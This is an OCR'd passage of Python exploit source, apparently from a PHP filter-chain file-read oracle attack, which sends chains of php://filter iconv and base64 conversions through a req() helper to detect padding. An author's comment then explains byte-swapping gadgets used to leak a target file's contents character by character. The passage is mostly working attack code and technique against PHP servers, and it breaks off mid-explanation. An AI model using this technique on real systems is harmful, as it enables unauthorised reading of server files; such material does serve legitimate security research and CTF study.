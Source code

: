 ```python
trailer = join(*[blow_up_utf32] * (baseline_blowup - 1))  
  
assert req(f'{header}|{trailer}') == False  
  
print('detecting equals')  
j = [  
    req(f'convert.base64-encode|convert.base64-encode|{blow_up_enc}|{trailer}'),  
    req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode{blow_up_enc}|{trailer}'),  
    req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KR|convert.base64-encode|{blow_up_enc}|{trailer}')  
]  
print(j)  
if sum(j) != 2:  
    err('something wrong')  
if j[0] == False:  
    header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode'  
elif j[1] == False:  
    header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KRconvert.base64-encode'  
elif j[2] == False:  
    header = f'convert.base64-encode|convert.base64-encode'  
else:  
    err('something wrong')  
print(f'j: {j}')  
print(f'header: {header}')  
  
"""  
Step two:  
Now we have something of the form  
[a-zA-Z0-9 things]==  
  
Here the pain begins. For a long time I was trying to find something that would allow me to strip  
successive characters from the start of the string to access every character. Maybe something like  
that exists but I couldn't find it. However, if you play around with filter combinations you notice  
there are filters that *swap* characters:  
  
convert.iconv.CSUNICODE.UCS-2BE, which I call r2, flips every pair of characters in a string:  
abcdefgh -> badcfehg  
  
convert.iconv.UCS-4LE.10646-1:1993, which I call r4, reverses every chunk of four characters:  
abcdefgh -> dcbahgfe  
  
This allows us to access the first four characters of the string. Can we do better? It turns out  
YES, we can! Turns out that convert.iconv.CSUNICODE.CSUNICODE appends <0xff><0xfe> to the start of  
the string:  
  
abcdefgh -> <0xff><0xfe>abcdefgh  
  
The idea being that if we now use the r4 gadget, we get something like:  
ba<0xfe><0xff>fedc  
  
And then if we apply a convert.base64-decode|convert.base64-encode, it removes the invalid  
<0xfe><0xff> to get:  
bafedc  
  
And then apply the r4 again, we have swapped the f and e to the front, which were the 5th and 6th  
characters of the string. There's only one problem: our r4 gadget requires that the string length  
is a multiple of 4. The original base64 string will be a multiple of four by definition, so when  
```